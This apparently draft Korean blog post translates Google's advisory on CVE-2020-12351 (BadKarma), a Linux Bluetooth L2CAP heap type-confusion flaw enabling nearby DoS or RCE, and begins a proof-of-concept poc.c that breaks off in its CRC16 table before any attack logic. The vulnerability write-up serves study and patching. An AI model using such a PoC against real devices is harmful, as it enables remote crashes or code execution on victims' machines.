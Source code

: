 ```yaml
---
title: "CVE-2020-12351"
date: 2021-06-09T13:05:14+09:00
draft: true
---
```


본 문서는 구글 보안팀의 [BadKarma 공식 문서](https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq)를 번역하며 재구성한 글입니다.


## Abstract
```
CVE: CVE-2020-12351
Severity: High
Platform: Linux Kernel >= 4.8
Attack Type: Heap-Based Type Confusion
```
본 글에서 다룰 취약점은 BleedingTooth 취약점 중 BadKarma 공격에 대한 내용으로 `CVE-2020-12351`번을 부여받은 취약점이다. 리눅스 커널 4.8 버전 이상에서 적용되며, [dbb50887c8f61 커밋](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/bluetooth/l2cap_core.c?id=dbb50887c8f619fc5c3489783ebc3122bc134a31)에서 발생했다. 취약점이 발생한 위치는 `net/bluetooth/l2cap_core.c` 파일이다.

공격자는 피해자의 bd 주소만 알고 있어도 단거리에서 조작된 l2cap 패킷을 보내 DoS 공격을 유발하거나 RCE가 가능하다.

## Proof Of Concept
### poc.c
```c++
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define AMP_MGR_CID 0x03

static uint16_t crc16_tab[256] = {
  0x0000, 0xc0c1, 0xc181, 0x0140, 0xc301, 0x03c0, 0x0280, 0xc241,
  0xc601, 0x06c0, 0x0780, 0xc741, 0x0500, 0xc5c1, 0xc481, 0x0440,
  0xcc01, 0x0cc0, 0x0d80, 0xcd41, 0x0f00, 0xcfc1, 0xce81, 0x0e40,
  0x0a00, 0xcac1, 0xcb81, 0x0b40, 0xc901, 0x09c0, 0x0880, 0xc841,
  0xd801, 0x18c0, 0x1980, 0xd941, 0x1b00, 0xdbc1, 0xda81, 0x1a40,
  0x1e00, 0xdec1, 0xdf81, 0x1f40, 0xdd01, 0x1dc0, 0x1c80, 0xdc41,
  0x1400, 0xd4c1, 0xd581, 0x1540, 0xd701, 0x17c0, 0x1680, 0xd641,
  0xd201, 0x12c0, 0x1380, 0xd341, 0x1100, 0xd1c1, 0xd081, 0x1040,
  0xf001, 0x30c0, 0x3180, 0xf141, 0x3300, 0xf3c1, 0xf281, 0x3240,
  0x3600, 0xf6c1, 0xf781, 0x3740, 0xf501, 0x35c0, 0x3480, 0xf441,
  0x3c00, 0xfcc1, 0xfd81, 0x3d40, 0xff01, 0x3fc0, 0x3e80, 0xfe41,
  0xfa01, 0x3ac0, 0x3b80, 0xfb41, 0x3900, 0xf9c1, 0xf881, 0x3840,
  0x2800, 0xe8c1, 0xe981, 0x2940, 0xeb01, 0x2bc0, 0x2a80, 0xea41,
  0xee01, 0x2ec0, 0x2f80, 0xef41, 0x2d00, 0xedc1, 0xec81, 0x2c40,
  0xe401, 0x24c0, 0x2580, 0xe541, 0x2700, 0xe7c1, 0xe681, 0x2640,
  0x2200, 0xe2c1, 0xe381, 0x2340, 0xe101, 0x21c0, 0x2080, 0xe041,
  0xa001, 0x60c0, 0x6180, 0xa141, 0x6300, 0xa3c1, 0xa281, 0x6240,
  0x6600, 0xa6c1, 0xa781, 0x6740, 0xa501, 0x65c0, 0x6480, 0xa441,
  0x6c00, 0xacc1, 0xad81, 0x6d40, 0xaf01, 0x6fc0, 0x6e80, 0xae41,
  0xaa01, 0x6ac0, 0x6b80, 0xab41, 0x6900, 0xa9c1, 0xa881, 0x6840,
  0x7800, 0xb8c1, 0xb981, 0x7940, 0xbb01, 0x7bc0, 0x7a80, 0xba41,
  0xbe01, 0x7ec0, 0x7f80, 0xbf41, 0x7d00, 0xbdc1, 0xbc81, 0x7c40,
```